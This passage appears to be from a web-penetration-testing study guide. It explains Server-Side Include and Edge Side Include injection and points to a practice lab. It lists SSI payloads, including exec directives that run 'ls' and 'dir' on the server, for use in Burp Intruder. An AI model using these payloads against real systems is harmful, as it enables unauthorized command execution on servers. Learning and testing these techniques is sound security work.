 > U can add examplary of SSI payloads in the BURP intruder list

### SSI Expressions
Example:
```js
<!--#directive param="value"-- >
```

You can try to execute commands For printing server-side variables:
```js
<!--#echo var="DOCUMENT NAME"-- >
<!--#echo var="DATE LOCAL"-- >
<!--#include virtual="/index.html"-- >
<!--#exec cmd="dir"-- >
<!--#exec cmd="ls"-- >
```

### SSI Practice
You can practice here:
```
https://www.owasp.org/index.php/OWASP_Broken_Web_Applications_Project
```

## Edge Side Includes (ESI)
Proxies and other similar intermediate infrastructure utilize them

- modern web app often consist of several intermediate server before users requests reach the end application server. We should try to interact with such intermediate infrastructure by injecting some ESI tags to our requests
- ESI has a form of XML Tags, which are dynamically added to cached static content in order to enrich them with some dynamic features.

- The ESI Tags are injected by cache mechanisms For other cache mechanisms; However, if a user is able to add ESI tags to the HTTP request, the proxies might parse it without knowing its origin.

![Alt text](/assets/images/posts/ewptx/60.png){: .align-center}
